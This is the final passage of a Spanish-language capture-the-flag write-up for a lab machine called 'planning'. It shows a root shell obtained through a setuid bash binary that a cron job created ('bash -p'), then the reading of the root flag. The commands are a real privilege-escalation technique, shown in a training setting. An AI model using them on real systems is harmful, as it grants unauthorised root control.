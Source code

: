 ![image-center](/assets/images/posts/planning-abusing-cron-2.png)
{: .align-center}

Al momento que ejecutemos la tarea `cron`, veremos que `bash` se ha vuelto un binario `suid`. Ejecutaremos una `bash` como `root` con el comando `bash -p`

~~~ bash
enzo@planning:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash

enzo@planning:~$ bash -p
bash-5.2# 
~~~

Ya podemos ver la flag del sistema ubicada en el directorio `/root`

~~~ bash
bash-5.2# cat /root/root.txt
99a...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> Experience can only be gained by doing not by thinking or dreaming.
> — Byron Pulsifer
{: .notice--info}
